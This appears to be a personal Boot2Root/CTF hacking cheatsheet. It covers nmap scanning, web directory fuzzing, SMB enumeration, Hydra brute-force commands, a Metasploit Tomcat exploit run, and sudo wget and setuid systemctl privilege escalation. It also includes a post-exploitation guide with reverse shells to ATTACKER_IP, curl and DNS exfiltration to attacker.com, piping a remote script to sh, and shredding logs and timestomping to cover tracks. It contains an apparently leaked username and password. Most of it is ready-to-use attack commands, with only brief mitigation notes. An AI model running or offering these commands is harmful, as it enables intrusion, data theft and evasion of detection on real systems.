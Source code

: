 # Boot2Root Cheatsheet


## **Enumeration**

<details>
  <summary>
    
### Nmap Network Scanning

  </summary>

```nmap -A -sC -sV -oN nmap.txt IP```


## Most Common Commands for Pentesters & Bug Hunters
- **Full Network Recon (Aggressive Scan with OS & Version Detection):**
  ```bash
  nmap -A -T4 192.168.1.1
  ```
- **Quick Scan of Most Common Ports:**
  ```bash
  nmap -F 192.168.1.1
  ```
- **Full Port Scan + Service Detection:**
  ```bash
  nmap -p- -sV 192.168.1.1
  ```
- **Detect Live Hosts in a Network:**
  ```bash
  nmap -sn 192.168.1.0/24
  ```
- **Scan for Vulnerabilities (NSE Scripts):**
  ```bash
  nmap --script vuln 192.168.1.1
  ```
- **Bypass Firewall & Stealth Scan:**
  ```bash
  nmap -sS -T3 -D RND:10 192.168.1.1
  ```

## Basic Scans
- **Scan a single target:**  
  `nmap 192.168.1.1`
- **Scan multiple targets:**  
  `nmap 192.168.1.1 192.168.1.2`
- **Scan an entire subnet:**  
  `nmap 192.168.1.0/24`
- **Scan from a file list:**  
  `nmap -iL targets.txt`
- **No ping scan (for firewalled hosts):**  
  `nmap -Pn 192.168.1.1`

## Port Scanning
- **Scan all 65,535 ports:**  
  `nmap -p- 192.168.1.1`
- **Scan specific ports:**  
  `nmap -p 22,80,443 192.168.1.1`
- **Scan a port range:**  
  `nmap -p 1-1000 192.168.1.1`
- **Scan top 1000 most common ports:**  
  `nmap --top-ports 1000 192.168.1.1`

## Scan Techniques
- **TCP SYN scan (stealthy, default for root):**  
  `nmap -sS 192.168.1.1`
- **TCP Connect scan (for non-root users):**  
  `nmap -sT 192.168.1.1`
- **UDP scan:**  
  `nmap -sU 192.168.1.1`
- **Aggressive scan (OS, versions, scripts, traceroute):**  
  `nmap -A 192.168.1.1`
- **Scan with OS detection:**  
  `nmap -O 192.168.1.1`

## Service & Version Detection
- **Detect running services & versions:**  
  `nmap -sV 192.168.1.1`
- **Aggressive version detection:**  
  `nmap -sV --version-intensity 5 192.168.1.1`

## Firewall Evasion & Stealth
- **Change scan timing (1-5, slow to fast):**  
  `nmap -T4 192.168.1.1`
- **Use decoys to hide real IP:**  
  `nmap -D RND:10 192.168.1.1`
- **Spoof source IP:**  
  `nmap -S 192.168.1.100 192.168.1.1`
- **Fragment packets to bypass filters:**  
  `nmap -f 192.168.1.1`
- **Use a custom MAC address:**  
  `nmap --spoof-mac 00:11:22:33:44:55 192.168.1.1`

## Nmap Scripting Engine (NSE)
- **List available scripts:**  
  `nmap --script-help=default`
- **Scan for vulnerabilities:**  
  `nmap --script vuln 192.168.1.1`
- **Scan for common exploits:**  
  `nmap --script exploit 192.168.1.1`
- **Scan for web vulnerabilities:**  
  `nmap --script=http-vuln* 192.168.1.1`
- **Detect open directories:**  
  `nmap --script http-enum 192.168.1.1`

## Saving & Exporting Scan Results
- **Save results in normal text format:**  
  `nmap -oN scan.txt 192.168.1.1`
- **Save results in XML format:**  
  `nmap -oX scan.xml 192.168.1.1`
- **Save results in all formats:**  
  `nmap -oA scan_results 192.168.1.1`
- **View output in grep-friendly format:**  
  `nmap -oG scan.gnmap 192.168.1.1`

## Specialized Scans
- **Scan for live hosts only:**  
  `nmap -sn 192.168.1.0/24`
- **Detect SMB vulnerabilities:**  
  `nmap --script smb-vuln* -p 445 192.168.1.1`
- **Enumerate SNMP information:**  
  `nmap -sU -p 161 --script=snmp-info 192.168.1.1`
- **Brute-force FTP login:**  
  `nmap --script=ftp-brute -p 21 192.168.1.1`



</details>






<details>
  <summary>

  ### Common Ports and Vulnerabilities Cheat Sheet

  </summary>

## Port Ranges
- **Well-Known Ports (0-1023):** Reserved for system processes and well-known services.
- **Registered Ports (1024-49151):** Assigned by IANA for user applications.
- **Dynamic/Private Ports (49152-65535):** Used for temporary or custom connections.

## Commonly Used Ports & Associated Services
| Port | Service | Description | Common Vulnerabilities |
|------|---------|-------------|------------------------|
| 21   | FTP     | File Transfer Protocol | Anonymous login, brute-force attacks, clear-text transmission |
| 22   | SSH     | Secure Shell | Weak credentials, outdated versions, brute-force |
| 23   | Telnet  | Unencrypted Remote Login | Clear-text transmission, credential theft |
| 25   | SMTP    | Simple Mail Transfer Protocol | Open relays, spam abuse |
| 53   | DNS     | Domain Name System | DNS spoofing, cache poisoning, amplification attacks |
| 80   | HTTP    | Web Traffic | XSS, SQL Injection, Directory Traversal |
| 110  | POP3    | Email Retrieval | Clear-text credentials, brute-force |
| 135  | RPC     | Remote Procedure Call | DCOM/RPC exploits, lateral movement |
| 139  | NetBIOS | Windows File Sharing | SMB relay attacks, enumeration |
| 143  | IMAP    | Internet Message Access Protocol | Brute-force, credential leaks |
| 443  | HTTPS   | Secure Web Traffic | SSL vulnerabilities (Heartbleed, TLS downgrade) |
| 445  | SMB     | Windows File Sharing | EternalBlue, SMBGhost, WannaCry |
| 3306 | MySQL   | Database | SQL injection, weak credentials |
| 3389 | RDP     | Remote Desktop Protocol | Brute-force, BlueKeep exploit |

## Common Vulnerabilities by Service Type
### Web Services (80, 443)
- SQL Injection
- Cross-Site Scripting (XSS)
- Directory Traversal
- Remote Code Execution (RCE)

### File Transfer & Sharing (21, 139, 445)
- Anonymous authentication
- SMB relay attack
- Ransomware infection via SMB vulnerabilities

### Email Services (25, 110, 143)
- Open relay abuse
- Phishing & spoofing attacks
- Credential brute-forcing

### Remote Access (22, 23, 3389)
- Weak authentication
- Brute-force attacks
- Man-in-the-middle (MITM) attacks

</details>

























<details>
  <summary>


  ### Find Directories 
  </summary>

# Finding Web Directories - Cheat Sheet

### 1. **Using `gobuster`**
- **Basic command:**
  ```bash
  gobuster dir -u http://10.10.195.158 -w /home/iftx/Desktop/Hacking/Recon/wordlist/common.txt
  ```

### 2. **Using `ffuf` (Fuzz Faster U Fool)**
- **Basic command:**

```bash
  ffuf -u http://10.10.195.158/FUZZ -w /home/iftx/Desktop/Hacking/Recon/wordlist/common.txt
  ```

```bash
  ffuf -u https://example.com/FUZZ -w /path/to/wordlist.txt -t 5 -p 0.5 -e .php,.html,.txt -fc 403,404

 ```




### 3. **Using `dirb` (Directory Buster)**
- **Basic command:**
  ```bash
  dirb http://10.10.195.158 /home/iftx/Desktop/Hacking/Recon/wordlist/common.txt
  ```

### 4. **Using `nikto` for Web Scanning**
- **Basic command:**
  ```bash
  nikto -h http://10.10.195.158
  ```

### 5. **Using `wfuzz` (Web Fuzzer)**
- **Basic command:**
  ```bash
  wfuzz -c -z file,/home/iftx/Desktop/Hacking/Recon/wordlist/common.txt -u http://10.10.195.158/FUZZ
  ```

### 6. **Using Nmap with `http-enum` Script**
- **Command:**
  ```bash
  nmap --script http-enum -p 80 10.10.195.158
  ```



</details>

## Web Exploitation

<details>
  <summary>

  ### **SMB Enumeration Cheat Sheet**
    
  </summary>


#### **1️⃣ Nmap SMB Enumeration**
```bash
nmap --script smb-enum-shares,smb-enum-users -p 139,445 <target-IP>
```
- Enumerates **SMB users & shares**.

```bash
nmap --script smb-vuln* -p 139,445 <target-IP>
```
- Checks **SMB vulnerabilities**.

---

#### **2️⃣ smbclient - Access SMB Shares**
```bash
smbclient -L //<target-IP> -U ""
```
- Lists available shares **without authentication**.

```bash
smbclient //<target-IP>/share -U user
```
- Connects to a **specific share**.

---

#### **3️⃣ smbmap - Check Share Access**
```bash
smbmap -H <target-IP>
```
- Checks **read/write access**.

```bash
smbmap -H <target-IP> -R
```
- Recursively **lists all files**.

---

#### **4️⃣ CrackMapExec (CME) - SMB Enumeration**
```bash
cme smb <target-IP> --shares
```
- Lists **shared folders**.

```bash
cme smb <target-IP> -u user -p password --shares
```
- Enumerates shares **with credentials**.

---

#### **5️⃣ Enum4linux - SMB Enumeration**
```bash
enum4linux -a <target-IP>
```
- Performs **all** enumeration techniques.

```bash
enum4linux -U <target-IP>   # List users  
enum4linux -S <target-IP>   # List shared folders  
```

---

#### **6️⃣ rpcclient - Windows RPC Services**
```bash
rpcclient -U "" <target-IP>
```
- Connects to **SMB RPC services** without authentication.

```bash
rpcclient -U user <target-IP>
> enumdomusers
```
- Enumerates **domain users**.

---

### ✅ **Best SMB Enumeration Workflow**
1️⃣ **Check open SMB ports** → `nmap -p 139,445 <IP>`  
2️⃣ **Enumerate shares & users** → `nmap --script smb-enum-shares,smb-enum-users -p 139,445 <IP>`  
3️⃣ **Try accessing shares** → `smbclient -L //<IP> -U ""`  
4️⃣ **Check permissions** → `smbmap -H <IP>`  
5️⃣ **Look for vulnerabilities** → `nmap --script smb-vuln* -p 139,445 <IP>`  

🚀 **Use these tools responsibly for pentesting & bug bounty engagements!**


</details>








<details>
<summary>
  
  ### **Login bruteforcing**

</summary>

**Brute-Forcing SquirrelMail Login**


Hydra Command:
```bash
hydra -l milesdyson -P log1.txt 10.10.195.158 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=SquirrelMail - Unknown user or password incorrect" -V -F
```
Medusa Command:
```bash
medusa -h 10.10.195.158 -u milesdyson -P log1.txt -M http -m POST:/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1
```
Both tools brute-force the login for SquirrelMail using a username (milesdyson) and a password list (log1.txt) to find the correct credentials.




 ### **ssh server**
```bash
hydra -l user_ name -P /home/iftx/Desktop/Room/wordlist/rockyou.txt 10.10.181.27 ssh

```
  
</details>


## Metasploit

<details>
  <summary>
   Metasploit Exploitation (Ghostcat - CVE-2020-1938)

  </summary>

1. Launch Metasploit

 `msfconsole`

2. Search for AJP Exploits

   `msf6 > search ajp`
   
```
Matching Modules
================

   #  Name                                        Disclosure Date  Rank       Check  Description
   -  ----                                        ---------------  ----       -----  -----------
   0  exploit/multi/http/tomcat_jsp_upload_bypass  2020-02-24       excellent  Yes    Tomcat RCE via JSP Upload Bypass
```
3. Select and Configure the Exploit

   `msf6 > use 0 `
   

`msf6 exploit(multi/http/tomcat_jsp_upload_bypass) > show options`


```
Module options (exploit/multi/http/tomcat_jsp_upload_bypass):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s)
   RPORT      8080             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path
   VHOST                       no        HTTP server virtual host
```


`msf6 exploit(multi/http/tomcat_jsp_upload_bypass) > set RHOSTS 10.10.228.82`


`msf6 exploit(multi/http/tomcat_jsp_upload_bypass) > set RPORT 8009`


`msf6 exploit(multi/http/tomcat_jsp_upload_bypass) > run`


skyfuck:8730281lkjlkjdqlksalks


  
</details>


## Privilege Escalation


<details>
  <summary>
    
### Privilege Escalation via `sudo wget` Exploitation
    
  </summary>


#### **1. Checking Sudo Permissions**  
- Ran `sudo -l` and found:  
  ```bash
  User jessie may run: (root) NOPASSWD: /usr/bin/wget
  ```
  → **`wget` can be executed as root without a password.**  

#### **2. Exploiting `wget` to Read Root Files**  
- **Method 1**: Directly read `/root/root_flag.txt`:  
  ```bash
  sudo wget -i /root/root_flag.txt  # Uses `-i` to read the file
  ```
- **Method 2**: Exfiltrate the file via HTTP (if `-i` fails):  
  ```bash
  sudo wget --post-file=/root/root_flag.txt http://ATTACKER_IP:8000
  ```
  → **Check HTTP server logs for the flag.**  

#### **3. Why This Works**  
- **GTFOBins**: `wget` with `sudo` can read arbitrary files (`-i` or `--post-file`).  
- **No Password**: `NOPASSWD` allows privilege escalation without authentication.  

#### **4. Mitigation**  
- **Restrict `sudo`**: Avoid `NOPASSWD` for commands like `wget`.  
- **Audit**: Regularly check `sudo -l` for all users.  

**Impact**: Critical (root access via file read/write).  
**Tool Reference**: [GTFOBins: wget](https://gtfobins.github.io/gtfobins/wget/).  

--- 

**Next Steps**:  
- Try **writing files** (e.g., `/etc/sudoers`) for a full root shell.  
- Use `sudo wget` to fetch and execute a reverse shell script.  

Need a deeper exploit? Let me know! 🔥
</details>

<details>
  <summary>
  Privilege Escalation via Misconfigured setuid Binary (systemctl)
    
  </summary>



## Exploit Steps

1. Find setuid binaries owned by root:

```bash
find / -user root -perm -4000 -print 2>/dev/null

```
If /bin/systemctl has setuid, it can be abused.

2. Create a malicious service (root.service):

```
ini
Copy
[Unit]
Description=root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'

[Install]
WantedBy=multi-user.target

```

3. Host the service & transfer to target:
Start HTTP server:

```python -m http.server 80```
On target, download:


```wget http://ATTACKER_IP/root.service -O /tmp/root.service```

4. Enable & start the service:
```
systemctl enable /tmp/root.service  # Uses setuid to gain root
systemctl start root

```

5. Get root shell:
Attacker listens:

```
nc -lvnp PORT
```
Service executes reverse shell as root.

### Mitigation
Remove setuid from systemctl:


chmod u-s /bin/systemctl
Restrict service file creation in /tmp (use noexec)

Monitor for unusual service activations

</details>


## Shell
<details>
  <summary>
    
### Automated File Reading with find + while Loop

  </summary>

If cat is disabled but you have bash or sh, you can read all files recursively:

```bash
find / -type f -name "*.txt" -exec sh -c 'echo "File: {}"; while IFS= read -r line; do echo "$line"; done < {}' \; 2>/dev/null
```
This will list and print all .txt files on the system.

Modify -name "*.txt" to target other extensions (e.g., *.php, *.bak).
</details>

<details>
  <summary>

    
  ### **Ultimate Linux Post-Exploitation & Flag Hunting Guide**  

  </summary>


---

*(CTF | Bug Bounty | Pentest | Red Team)*  

## **🔍 1. Finding Flags/Sensitive Files**  
### **A. Quick File Searches**
```bash
# Find flags by name/extension  
find / -type f \( -name "*flag*" -o -name "*.txt" -o -name "*.conf" \) 2>/dev/null  

# Find recently modified files (last 24h)  
find / -type f -mtime -1 2>/dev/null  

# Find hidden files  
find / -name ".*" -ls 2>/dev/null  
```

### **B. Content Hunting (Passwords, API Keys)**
```bash
# Search for common patterns  
grep -rniE "password|api[_-]?key|jwt|secret|flag{" /etc /home /var/www 2>/dev/null  

# Database credentials  
grep -rni "mysql://\|postgresql://" / 2>/dev/null  
```

### **C. Critical Paths**
| Path                 | Purpose                          |
|----------------------|----------------------------------|
| `/home/*/.ssh/`      | SSH private keys                 |
| `/var/www/html/`     | Web app configs (Bug Bounty)     |
| `/etc/shadow`        | Password hashes (Pentest)        |
| `/opt/backups/`      | Database/config backups          |

---

## **🚫 2. Bypassing Restrictions**  
### **A. Read Files Without `cat`**
```bash
# Basic alternatives  
less /path/file      # Interactive  
tail -n 50 /path/file  # Last 50 lines  

# Scripting  
python3 -c "print(open('/etc/passwd').read())"  
perl -pe 'print' /path/file  

# Binary/encoded  
strings /path/file   # Extract text  
base64 /path/file | base64 -d  # Encode→Decode  
```

### **B. Wildcard Bypass**
```bash
/bin/?at /path/file   # Tries /bin/cat, /bin/bat  
```

### **C. Stealthy Exfiltration**
```bash
# DNS (Attacker: `sudo tcpdump -i eth0 udp port 53`)  
xxd -p /path/file | while read line; do dig "$line.domain.com"; done  

# HTTP (Quick)  
curl -X POST --data-binary @/path/file http://attacker.com  
```

---

## **🛠️ 3. Privilege Escalation**  
### **A. Quick Checks**
```bash
# Sudo abuse  
sudo -l  # Check ALL/NOPASSWD  

# SUID/SGID binaries  
find / -perm -4000 -o -perm -2000 2>/dev/null  

# Writable cron jobs  
ls -la /etc/cron* /var/spool/cron  
```

### **B. Kernel Exploits**
```bash
uname -a  # Check version  
searchsploit linux kernel 5.4.0  # Find exploits  
```

### **C. Automated Tools**
```bash
# LinPEAS (Full audit)  
curl -L https://linpeas.sh | sh  

# LinEnum (Quick enum)  
./LinEnum.sh -t  
```

---

## **📜 4. Decoding Data**  
```bash
# Base64  
echo "RkxBR3tleGFtcGxlfQ==" | base64 -d  

# Hex  
echo "464C4147" | xxd -r -p  

# ROT13  
echo "SYNT" | tr 'A-Za-z' 'N-ZA-Mn-za-m'  
```

---

## **🚪 5. Shell Escape**  
```bash
# Spawn TTY shell  
python3 -c 'import pty; pty.spawn("/bin/bash")'  

# Reverse shell  
bash -c 'bash -i >& /dev/tcp/10.0.0.1/443 0>&1'  
```

---

## **🧹 6. Covering Tracks**  
```bash
# Clear logs  
shred -u /var/log/auth.log  

# Timestomp  
touch -r /etc/passwd /root/.bash_history  
```

---

## **🎯 Pro Tips**  
- **CTFs**: Check `/tmp/`, `/opt/`, and home directories.  
- **Bug Bounty**: Hunt for `.env`, `config.php.bak`.  
- **Pentest**: Always check `sudo -l` and SUID binaries first.  

---

### **📥 One-Pager Cheatsheet**  
```markdown
1. Find flags: `find / -name "*flag*" 2>/dev/null`  
2. Read files: `less /path/file` or `python3 -c "print(open('f').read())"`  
3. PrivEsc: `sudo -l`, `find / -perm -4000`  
4. Decode: `echo "BASE64" | base64 -d`  
5. Shell: `python3 -c 'import pty; pty.spawn("/bin/bash")'`  
```


</details>


<details>
  <summary>

  ### Detailed Guide: RSA Private Key 

  </summary>


## **1. Introduction to RSA Private Keys**
An **RSA private key** is a cryptographic key used for secure authentication, typically in SSH, SSL/TLS, and encrypted communications. If exposed, it can lead to **unauthorized system access**, making it a critical finding in security assessments.

### **Key Characteristics**
- **Format**: PEM (Base64-encoded, with `-----BEGIN RSA PRIVATE KEY-----` header).
- **Usage**: SSH logins, decrypting data, or signing certificates.
- **Common Locations**:
  - Web server leaks (`/id_rsa`, `/backup/id_rsa.bak`).
  - Git repository exposures (`.git/config`, `~/.ssh/`).
  - Misconfigured cloud storage (AWS S3, GCP buckets).

---

## **2. Exploitation in Penetration Testing**
### **Step 1: Identify & Validate the Key**
- **Check if the key is valid**:
  ```bash
  openssl rsa -in id_rsa -check
  ```
- **If passphrase-protected**, crack it using:
  ```bash
  ssh2john id_rsa > id_rsa.hash  
  john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
  ```

### **Step 2: Use the Key for SSH Access**
- **Restrict permissions** (SSH requires strict file modes):
  ```bash
  chmod 600 id_rsa
  ```
- **Attempt SSH login**:
  ```bash
  ssh -i id_rsa user@target_ip
  ```
- **Common Usernames** (if unknown):
  ```bash
  for user in $(cat users.txt); do ssh -i id_rsa $user@target_ip -o ConnectTimeout=2; done
  ```

### **Step 3: Privilege Escalation**
- Check `sudo -l` for misconfigurations (as in your `wget` case).
- Look for **writable cron jobs**, **SUID binaries**, or **kernel exploits**.

---

## **3. Bug Bounty Implications**
### **Where to Find Exposed Keys**
- **GitHub/GitLab Repos**: Search for `-----BEGIN RSA PRIVATE KEY-----`.
- **Exposed Backups**: `/backup`, `/www/backup`, `.bak` files.
- **Logs & Environment Variables**: Check `/proc/self/environ`, error logs.

### **Impact**
- **Critical Severity**: Unauthorized server access → data breaches.
- **Report Template**:
  ```
  Title: Exposed RSA Private Key Leading to Server Compromise  
  Description: A private SSH key was found at [URL], allowing unauthorized access to [service].  
  Proof: [Attach key + successful SSH login screenshot]  
  Remediation: Revoke the key, enforce key rotation, disable passwordless auth.  
  ```

---

## **4. CTF-Specific Techniques**
### **Common CTF Challenges**
1. **Hidden Key in Web Source**  
   - Use `curl` or `view-source:` to find keys in HTML comments.
2. **Steganography in Images**  
   - Extract keys using `steghide`, `binwalk`, or `strings`.
3. **Abusing Weak Permissions**  
   - If you get a low-priv shell, check `/home/*/.ssh/` for keys.

### **Automated Tools**
- **TruffleHog**: Scans Git repos for secrets.
- **GitLeaks**: Detects exposed keys in version control.
- **ssh-audit**: Checks SSH server vulnerabilities.

---

## **5. Defensive Measures (For Admins)**
### **Preventing Key Leaks**
- **Never store keys in web directories**.
- **Use SSH certificates** instead of raw keys.
- **Rotate keys periodically** and revoke compromised ones.

### **Hardening SSH**
```ini
# /etc/ssh/sshd_config
PermitRootLogin no
PasswordAuthentication no
PubkeyAuthentication yes
AuthorizedKeysFile .ssh/authorized_keys
```

---

## **6. Legal & Ethical Considerations**
- **Penetration Testing**: Only test authorized systems.
- **Bug Bounty**: Follow the program’s rules (don’t exfiltrate data).
- **CTFs**: Keys are intentionally placed—don’t attack real systems.

---

## **7. Conclusion**
- **Pentest**: Use exposed keys for initial access → escalate privileges.
- **Bug Bounty**: Report exposed keys immediately (critical finding).
- **CTF**: Often a shortcut to flags—check backups, source code, and logs.

### **Final Command Cheatsheet**
```bash
# Test key validity
openssl rsa -in id_rsa -check

# Crack passphrase-protected key
ssh2john id_rsa > hash && john --wordlist=rockyou.txt hash

# SSH login attempt
chmod 600 id_rsa && ssh -i id_rsa user@target
```

</details>
